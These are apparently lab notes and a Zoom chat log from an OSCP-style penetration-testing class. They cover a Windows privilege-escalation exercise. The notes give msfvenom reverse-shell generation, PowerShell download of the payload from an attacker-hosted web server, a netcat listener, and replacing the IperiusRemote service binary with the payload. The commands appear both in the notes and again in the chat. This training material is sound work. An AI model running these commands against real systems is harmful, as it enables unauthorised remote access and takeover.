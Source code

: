 # Day 10

## The Heist

### MSFVenom
```Bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.50.138.46 LPORT=4444 -f exe -o heist.exe
```

Creates the file that you want on the target. Just need to get it there! Ideally to be ran as admin
- wget
- cerutil
- vbscript
- rdesktop and download

MSF Venom Cheat Sheets
- https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/
- https://github.com/frizb/MSF-Venom-Cheatsheet
- https://medium.com/@c.andrewlong/msfvenom-cheatsheet-f9e43edae9f1
- https://pentestwiki.org/msfvenom-payloads-cheat-sheet/
- https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
- https://netsec.ws/?p=331
- https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/
- https://www.hacknos.com/msfvenom-payload-cheat-sheet/
- https://blog.certcube.com/oscp-msfvenom-all-in-one-cheatsheet/
- https://sushant747.gitbooks.io/total-oscp-guide/reverse-shell.html
- https://blog.extremehacking.org/blog/2017/06/29/msfvenom-cheat-sheet/

Make it available on your host as a webserver so we can transfer it to the target

```Bash
python3 -m http.server 80
```

And then on the target
```Bash
# No need to specify the port becase we opened the server on port 80

# Ensure you run this from a user writeable folder so we can write the outfile. 

powershell -c "Invoke-WebRequest -Uri '<Attacker IP>/heist.exe' -OutFile heist.exe"```

Begin listening

```Bash
nc -lvnp -4444
```

On the target, copy the heist.exe file over the Iperius file. 


Moving on...

Winpeas
- https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

19:52:01 From  Brett Gustafson  to  Everyone:
	What's the benefit to a staged shell?
19:52:03 From  Matt  to  Everyone:
	are we going to cover encoding payloads with msfvenom
19:54:11 From  Candido Lopez - Evolve Academy  to  Everyone:
	As we do more boxes it will come up but by default msfvenom does encode with shikata ga nails automatically
19:54:40 From  Candido Lopez - Evolve Academy  to  Everyone:
	nai not nails
19:55:15 From  Matt  to  Everyone:
	did that change, I swear a few years ago I had to manually specifiy shikata encoding
19:55:25 From  Candido Lopez - Evolve Academy  to  Everyone:
	It did
19:55:37 From  Candido Lopez - Evolve Academy  to  Everyone:
	Last year
19:57:22 From  Matt  to  Everyone:
	ah ok
19:57:56 From  Candido Lopez - Evolve Academy  to  Everyone:
	Late last year actually if I remember correctly.  This came up in the last cohort.
20:03:55 From  Nic George - Evolve Academy  to  Everyone:
	I just double checked and it only uses shikata ga nai by default when specifying the -b flag
20:03:58 From  Q  to  Everyone:
	msfvenom -p windows/shell_reverse_tcp LHOST=10.50.138.46 LPORT=4444 -f exe -o heist.exe
20:04:02 From  tchitchu  to  Everyone:
	is this how the .jpg executables are created?
20:05:02 From  Adam  to  Everyone:
	Is the steganographic option in MSFVenom
20:05:04 From  Adam  to  Everyone:
	?
20:05:13 From  Adam  to  Everyone:
	Is there a*
20:07:28 From  Q  to  Everyone:
	msfvenom -p windows/shell_reverse_tcp LHOST=10.50.138.46 LPORT=4444 -f exe -o heist.exe
20:10:46 From  Candido Lopez - Evolve Academy  to  Everyone:
	List of Cheatsheets for MSFVenom
20:10:49 From  Candido Lopez - Evolve Academy  to  Everyone:
	https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/
	https://github.com/frizb/MSF-Venom-Cheatsheet
	https://medium.com/@c.andrewlong/msfvenom-cheatsheet-f9e43edae9f1
	https://pentestwiki.org/msfvenom-payloads-cheat-sheet/
	https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
	https://netsec.ws/?p=331
	https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/
	https://www.hacknos.com/msfvenom-payload-cheat-sheet/
	https://blog.certcube.com/oscp-msfvenom-all-in-one-cheatsheet/
	https://sushant747.gitbooks.io/total-oscp-guide/reverse-shell.html
	https://blog.extremehacking.org/blog/2017/06/29/msfvenom-cheat-sheet/
20:13:00 From  Q  to  Everyone:
	powershell -c "Get-Help process"
20:14:19 From  Q  to  Everyone:
	python3 -m http.server 80
20:16:16 From  Q  to  Everyone:
	powershell -c "Invoke-WebRequest -Uri 'http://10.50.138.46/heist.exe' -OutFile heist.exe
20:27:13 From  Q  to  Everyone:
	copy C:\Users\professor\heist.exe C:\ProgramData\IperiusRemote\IperiusRemoteSystem.exe
20:28:14 From  Q  to  Everyone:
	powershell -c "Invoke-WebRequest -Uri 'http://10.50.138.46/heist.exe' -OutFile heist.exe"
20:28:29 From  Q  to  Everyone:
	copy C:\Users\professor\heist.exe C:\ProgramData\IperiusRemote\IperiusRemoteSystem.exe
20:30:36 From  Candido Lopez - Evolve Academy  to  Everyone:
	https://github.com/mttaggart/OffensiveNotion
20:31:30 From  Nic George - Evolve Academy  to  Everyone:
	shutdown /r /t 0 /f
20:35:03 From  J Mo  to  Everyone:
	insecure service path folder permissions
20:37:50 From  Q  to  Everyone:
	https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
20:38:05 From  Matt  to  Everyone:
	also, if you reset it it wipes it back to original, so what you uploaded would be gone
20:38:26 From  Matt  to  Everyone:
	so you'd want to restart it inside of the VM, not reset the VM it's self
20:38:27 From  Candido Lopez - Evolve Academy  to  Everyone:
	+1
20:38:47 From  Brett Gustafson  to  Everyone:
	What's the reset quota for OSCP?
20:39:21 From  Candido Lopez - Evolve Academy  to  Everyone:
	25
20:39:32 From  Candido Lopez - Evolve Academy  to  Everyone:
	More if you ask nicely
20:39:35 From  Candido Lopez - Evolve Academy  to  Everyone:
	Not a joke
20:40:16 From  Candido Lopez - Evolve Academy  to  Everyone:
	You should not need to reset that many times though
20:45:05 From  Q  to  Everyone:
	https://gtfobins.github.io/
20:59:13 From  Matt  to  Everyone:
	show me your WARshell
20:59:17 From  Matt  to  Everyone:
	RAAAAAAH
